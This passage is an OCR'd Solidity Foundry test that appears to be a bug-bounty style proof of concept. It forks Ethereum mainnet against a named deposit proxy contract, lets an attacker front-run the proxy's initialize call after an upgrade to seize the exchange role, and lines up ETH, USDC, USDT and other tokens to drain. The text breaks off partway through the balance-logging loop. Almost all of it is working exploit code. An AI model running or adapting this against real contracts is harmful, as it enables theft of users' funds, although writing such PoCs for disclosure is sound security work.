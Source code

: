 ```
    function initialize(address _exchange) external;
    function owner() external view returns (address);
    function pendingOwner() external view returns (address);
    function withdraw(address, address to, address token, uint256 amount) external payable;
    receive() external payable;
}

contract HelperContract {
    fallback() external payable {}
}

contract TestPOC is Test {
    IDepositProxy deposit_proxy = IDepositProxy(payable(0x54D7aE423Edb07282645e740C046B9373970a168));

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
    }

    function testFrontrunInitializeStealAllFundsPOC() public {
        console.log("\nNOTE: For simplicity of POC, we are pranking `proxy owner` for upgradeTo tx");
        address proxy_owner = deposit_proxy.proxyOwner();

        DefaultDepositContract new_impl = new DefaultDepositContract();
        console.log("New implementation deployed at: %s", address(new_impl));

        console.log("Proxy owner is upgrading proxy implementation to new implementation: %s", address(new_impl));
        vm.prank(proxy_owner);
        deposit_proxy.upgradeTo(address(new_impl));
        
        address attacker = makeAddr("Attacker");
        console.log("Address of attacker: %s", attacker);

        HelperContract attacker_controlled_contract = new HelperContract();
        console.log("Attacker controlled contract is deployed at : %s", address(attacker_controlled_contract));

        console.log("Attacker can backrun/frontrun upgradeTo/initialize tx respectively. Here, its backrunning upgradeTo tx");
        vm.prank(attacker);
        deposit_proxy.initialize(attacker);

        address exchange = deposit_proxy.exchange();
        console.log("Exchange is initialized to : %s", exchange);
        assert(exchange == attacker);

        console.log("Attacker can steal all the funds from proxy");
        address[] memory tokensToSteal = new address[](5);
        tokensToSteal[0] = address(0); //ETH
        tokensToSteal[1] = 0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C; //USDM
        tokensToSteal[2] = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48; //USDC
        tokensToSteal[3] = 0x53C8395465A84955c95159814461466053DedEDE; //DG
        tokensToSteal[4] = 0xdAC17F958D2ee523a2206206994597C13D831ec7; //USDT

        console.log("");
        console.log("Balance of proxy, before attack:");
        for(uint i; i < tokensToSteal.length; i++) {
            string memory symbol = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).symbol() : "ETH";
            uint balance = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy)) : address(deposit_proxy).balance;
```